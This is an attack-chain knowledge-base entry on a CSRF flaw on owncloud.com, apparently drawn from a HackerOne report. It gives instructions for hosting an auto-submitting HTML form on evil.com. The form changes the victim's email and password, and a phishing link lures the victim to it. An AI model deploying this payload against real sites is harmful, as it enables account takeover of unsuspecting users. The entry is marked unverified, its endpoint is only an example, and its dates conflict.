

---
tags:
  - csrf
  - account-takeover
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
commands: []
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Exploit-CSRF-for-Account-Takeover]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  A multi-researcher discovered CSRF vulnerability on owncloud.com allowing
  unauthorized account actions leading to potential takeover.
skill_level: intermediate
impact_level: high
id: bc4bf2b7-959f-4c15-aff3-8ed2742cbf20
created_at: '2025-12-14T17:27:03.695Z'
updated_at: '2025-12-14T17:27:03.695Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Account Compromise via CSRF on ownCloud Web Page

## Overview

This attack chain exploits a Cross-Site Request Forgery (CSRF) vulnerability on the owncloud.com web page, where account-related actions lack proper CSRF protection. Discovered independently by multiple researchers and reported via HackerOne (#84372), the flaw allows an attacker to trick authenticated users into performing unauthorized actions, such as changing account settings or adding malicious integrations, potentially leading to full account takeover. The vulnerability was mitigated without a bounty, but it highlights the risks of missing anti-CSRF tokens in web applications like ownCloud.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for hosting malicious page
- Text editor for crafting HTML form

### Target Environment

- Platform: Web
- Services: ownCloud web application
- Tech Stack: ownCloud
- Network access: Public internet to owncloud.com

### Initial Access Requirements

- Victim must be authenticated to owncloud.com
- Attacker needs a way to lure victim (e.g., email, social engineering)
- No prior access to victim's account required

## Detailed Attack Procedures

### Step 1: Craft and Host Malicious CSRF Page
procedure: [[procedures/Exploit-CSRF-for-Account-Takeover]]

**Objective**: Create a malicious webpage that automatically submits a form to owncloud.com, forcing the authenticated user to perform an unauthorized account action without their knowledge.

**Instructions**: Develop an HTML page with a hidden form targeting the vulnerable ownCloud endpoint (e.g., an account settings update). Host it on an attacker-controlled server and lure the victim to visit it while logged into owncloud.com. The form submission bypasses CSRF checks due to the lack of token validation.

Example malicious HTML:

```html
<!DOCTYPE html>
<html>
<body>
  <form action="https://owncloud.com/account/update" method="POST" id="csrf-form">
    <input type="hidden" name="email" value="attacker@evil.com">
    <input type="hidden" name="password" value="newpass123">
  </form>
  <script>
    document.getElementById('csrf-form').submit();
  </script>
</body>
</html>
```

Host this on a domain like evil.com/csrf.html and send a phishing link to the victim.

**Expected Output**: The victim's browser submits the form using their active session, updating the account without consent.

**Success Indicators**:
- Victim's account email or settings changed to attacker-controlled values
- Confirmation from ownCloud dashboard showing unauthorized modifications
- No user interaction required beyond visiting the page

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection to execute unauthorized actions on ownCloud
2. Enabled potential full account takeover via session hijacking-like behavior
3. Demonstrated impact on user authentication without direct credential theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01*
